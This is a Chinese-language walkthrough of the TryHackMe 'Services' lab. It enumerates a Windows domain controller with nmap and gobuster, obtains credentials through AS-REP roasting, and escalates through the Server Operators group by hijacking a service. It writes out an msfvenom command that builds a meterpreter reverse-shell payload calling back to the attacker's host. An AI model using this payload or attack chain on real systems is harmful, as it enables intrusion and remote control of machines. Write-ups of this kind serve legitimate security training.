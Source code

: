 ```yaml
---
sidebar_position: 156
tags: [Easy, Windows, Kerberos AS-REP Rosating, 用户组]
title: "Services"
description: "Services"
sidebar_label: "Services"
slug: /tryhackme/156
---
```


# Services

## 端口扫描

```bash
root@ip-10-10-143-156:~/services# nmap -sTCV -p- --min-rate 1000 10.10.229.149

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-08 09:40 BST
Nmap scan report for ip-10-10-229-149.eu-west-1.compute.internal (10.10.229.149)
Host is up (0.00034s latency).
Not shown: 65506 closed ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Above Services
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-08 08:41:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WIN-SERVICES.services.local
| Not valid before: 2023-10-07T08:31:45
|_Not valid after:  2024-04-07T08:31:45
|_ssl-date: 2023-10-08T08:41:55+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
57359/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 02:F0:28:51:82:83 (Unknown)
Service Info: Host: WIN-SERVICES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WIN-SERVICES, NetBIOS user: <unknown>, NetBIOS MAC: 02:f0:28:51:82:83 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-10-08 09:41:55
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.66 seconds
```

## 80

```bash
root@ip-10-10-143-156:~/services# gobuster dir -u http://10.10.229.149/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,asp,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.229.149/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,asp,txt
[+] Timeout:        10s
===============================================================
2023/10/08 09:46:32 Starting gobuster
===============================================================
/index.html (Status: 200)
/about.html (Status: 200)
/img (Status: 301)
/contact.html (Status: 200)
/css (Status: 301)
/About.html (Status: 200)
/Contact.html (Status: 200)
/Index.html (Status: 200)
/courses.html (Status: 200)
/pricing.html (Status: 200)
/portfolio.html (Status: 200)
/js (Status: 301)
/fonts (Status: 301)
/IMG (Status: 301)
/INDEX.html (Status: 200)
/Courses.html (Status: 200)
/Fonts (Status: 301)
/CSS (Status: 301)
/Img (Status: 301)
/JS (Status: 301)
/Pricing.html (Status: 200)
/Portfolio.html (Status: 200)
/CONTACT.html (Status: 200)
/COURSES.html (Status: 200)
/ABOUT.html (Status: 200)
===============================================================
2023/10/08 09:48:34 Finished
===============================================================
```

从目录扫描中我并没有获取到任何有效的内容, 接着我开始了查找网页内容, 在网页的下方我发现了一个邮箱

![image-20240709191947442](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-191949.png)

同时在查看网站上标注的内部员工时我发现

- 这里的 Joanne Doe 好像对的就是我们上面的邮箱
- 如果上一个判断正确, 那么下一步我们就可以创建出所有用户的内部名称

![image-20240709191953890](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-191955.png)

## 88

在获取到用户的内部名称以及域名后我开始了 kerberos 的利用

1. 我对发现的用户进行了验证,发现用户全部正确

    ![image-20240709192002589](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192004.png)

2. 我尝试里 AS-REP 攻击, 获取到其中一个用户的 Session key

    ![image-20240709192009795](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192011.png)

3. 进行解密

    ![image-20240709192016588](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192018.png)

本来我还计划 SPN 打一下, 但是没消息所以就放弃了直接尝试登陆

## 后渗透

### j.rock

![image-20240709192034501](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192036.png)

### j.rock —> administrators

![image-20240709192045861](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192047.png)

从上面发现用户 j.rock 属于一个特殊的用户组 Server Operators , 

![image-20240709192057920](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192059.png)

因此我便开始查找相关的利用文章 [Windows Privilege Escalation: Server Operator Group - Hacking Articles](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/) 使用 services 命令我们可以列出所有的服务

![image-20240709192108002](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192109.png)

我们在这里使用 cfn-hup 服务进行操作

1. 生成我们的木马程序

    ```bash
    root@ip-10-10-143-156:~/services# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.143.156 LPORT=4444 -f exe > admin.exe
    ```

2. 进行上传并修改 cfn-hup 的配置, 

    ![image-20240709192115327](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192116.png)

3. 然后我们就可以得到一个 Shell

    ![image-20240709192120525](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-192122.png)